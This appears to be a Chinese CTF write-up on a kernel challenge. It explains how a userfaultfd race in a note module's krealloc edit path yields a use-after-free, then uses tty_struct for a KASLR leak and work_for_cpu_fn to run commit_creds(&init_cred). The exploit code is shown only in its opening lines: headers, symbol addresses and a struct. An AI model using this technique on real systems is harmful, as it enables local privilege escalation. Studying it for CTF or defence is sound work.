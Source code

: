 注意到：

- 其中使用`krealloc`对`kmalloc`的指针进行空间的重分配。而当`size`为`0`时，其相当于`free`；
- 使用的仍然是**读锁**，意味着可以有**多个线程**同时进入临界区；

除此之外，`note_delete`函数为正常**释放并清空**堆块，且使用的为**写锁**，不存在条件竞争的可能。

### 解题思路总览

在`note_edit`函数中：

若`size`为`0`，这就满足了我们在`userfaultfd`中提到的：

```c
kfree(ptr[index]);
copy_from_user(name, v4, 0x200);
...
ptr[index] = 0;
```

说明这里是可以让我们用`userfaultfd`来进行条件竞争，并构造一个`UAF`。

除此之外，由于`add`函数中有`size`的`check`，因此我们还需要采用同样的方式进行`size`的还原。

### 解题方法：tty_struct(kmalloc-1k, GFP_KERNEL_ACCOUNT) + work_for_cpu_fn

由于存在`UAF`，且`UAF`的`size`是任意可控的，因此我们可以使用熟悉的`tty_struct`来进行利用。

而`tty_struct + work_for_cpu_fn`配合利用时，可以直接执行`commit_creds(&init_cred)`，因此可以直接提权而无需`rop`。因此，我们唯一需要思考的就是地址泄露的问题。由于本题目`kaslr`开启，因此我们对于函数地址是未知的。

幸运的是，`tty_struct`结构体也可以用于地址泄露。当申请到`tty_struct`结构体时，其`tty_operation`指针要么为`PTM_UNIX98_OPS`，要么为`PTY_UNIX98_OPS`。而即使开启了`kaslr`，十六进制低三位也是不变的。因此，我们利用`UAF`申请到`tty_struct`结构体时，可以查看其`tty_operations`指针的值，并判断其是属于`PTM_UNIX98_OPS`还是`PTY_UNIX98_OPS`。判断后，我们使用泄露出的该值减去其本来的值，即可得到内核的偏移。

顺便说下，我们在调试时可以先使用`root`用户调试并关闭`kaslr`，如此可以获得基地址和查看函数地址的权限。

那么，一个带详细注释的`exp`如下：

```c

#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <semaphore.h>
#include "ltfallkernel.h"

#define PTM_UNIX98_OPS 0xffffffff81e8e440
#define PTY_UNIX98_OPS 0xffffffff81e8e320
#define WORK_FOR_CPU_FN 0xffffffff8109eb90
#define COMMIT_CREDS 0xffffffff810a9b40
#define INIT_CRED 0xffffffff8225c940


size_t commit_creds = 0, prepare_kernel_cred = 0;

size_t user_cs, user_ss, user_rflags, user_sp;


typedef struct {
    size_t index;
    size_t size;
    void* buf;
}userarg;

```